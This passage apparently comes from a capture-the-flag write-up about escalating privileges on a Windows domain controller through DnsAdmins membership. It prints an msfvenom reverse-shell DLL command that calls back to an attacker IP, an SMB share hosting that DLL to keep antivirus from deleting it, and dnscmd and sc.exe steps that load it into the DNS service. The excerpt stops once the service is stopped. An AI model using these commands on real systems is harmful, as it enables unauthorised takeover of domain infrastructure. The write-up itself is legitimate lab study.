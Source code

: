 ```ruby
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192
```

After some googling, a blog was found that explained how to privesc using members of dnsadmins [here](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2)

so a dll payload was created using msfvenom
```ruby
❯ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.4 LPORT=4443 --platform=windows -f dll > privesc.dll
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 5120 bytes
```


Then hosted the file using smb, hosting it with smb was chosen because windows supports UNC paths and samba shares by default in most cases. Also, **there are times when the victim’s AV or defender may delete the payload if uploaded**.

Created the smbserver using impackets smbserver.py as follows:
```ruby
❯ sudo smbserver.py SHARE .
[sudo] password for astrah: 
Impacket v0.9.22.dev1+20200929.152157.fe642b24 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
Testing was done to see if the victim machine could access the share and it was successfull
```ruby
*Evil-WinRM* PS C:\Users\ryan\Documents> net view \\10.10.14.4
Shared resources at \\10.10.14.4

(null)
Share name  Type  Used as  Comment

-------------------------------------------------------------------------------
SHARE       Disk
The command completed successfully.
```
Next, the below command was used on powershell to inject the generated payload
```ruby
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.14.4\SHARE\privesc.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```
Then finally, restarting the dns server
```ruby
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
```